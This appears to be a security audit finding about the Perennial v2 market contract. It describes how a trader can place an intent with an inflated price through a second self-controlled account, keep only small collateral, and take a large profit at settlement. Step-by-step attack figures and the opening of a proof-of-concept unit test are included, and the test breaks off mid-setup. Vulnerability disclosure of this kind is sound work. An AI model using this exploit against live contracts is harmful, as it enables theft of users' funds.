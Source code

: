### External pre-conditions

_No response_

### Attack Path

Example： 
lastVerson.price = 123 
Intent.price = 1250000000000  (Far more than the normal price)
Intent.postion = 5 

1. Alice deposit collateral = 10000     (As long as it is greater than `Intent.postion * lastVerson.price`)
2. Alice_fake_user deposit collateral = 10000     (As long as it is greater than `Intent.postion * lastVerson.price`)
3. alice execute update(account= alice, Intent = {account=Alice_fake_user , postion = 5 , price = 1250000000000 )
   - This order can be submitted successfully because the collateral is only related to Intent.postion and lastVerson.price
4. lastVerson.price still = 123
5. settle(alice) , pnl： (Intent.price - lastVerson.price)  * Intent.postion  = (1250000000000 - 123) * 5

Note:Alice_fake_user will be a huge loss, but that's ok, relative to profit, giving up very small collateral `10,000`.





### Impact

 Maliciously specifying a very large intent.price will result in a large gain at settlement, stealing funds

### PoC

The following example demonstrates that specifying a very large `intent.price` with a very small collateral
generating a very large return to collateral

add to `/perennial-v2/packages/perennial/test/unit/market/Market.test.ts`

```js
        it('test_intent_price', async () => {
          factory.parameter.returns({
            maxPendingIds: 5,
            protocolFee: parse6decimal('0.50'),
            maxFee: parse6decimal('0.01'),
            maxFeeAbsolute: parse6decimal('1000'),
            maxCut: parse6decimal('0.50'),
            maxRate: parse6decimal('10.00'),
            minMaintenance: parse6decimal('0.01'),
            minEfficiency: parse6decimal('0.1'),
            referralFee: parse6decimal('0.20'),
            minScale: parse6decimal('0.001'),
          })

          const marketParameter = { ...(await market.parameter()) }
          marketParameter.takerFee = parse6decimal('0.01')
          await market.updateParameter(marketParameter)

          const riskParameter = { ...(await market.riskParameter()) }
          await market.updateRiskParameter({
            ...riskParameter,
            takerFee: {
              ...riskParameter.takerFee,
              linearFee: parse6decimal('0.001'),
```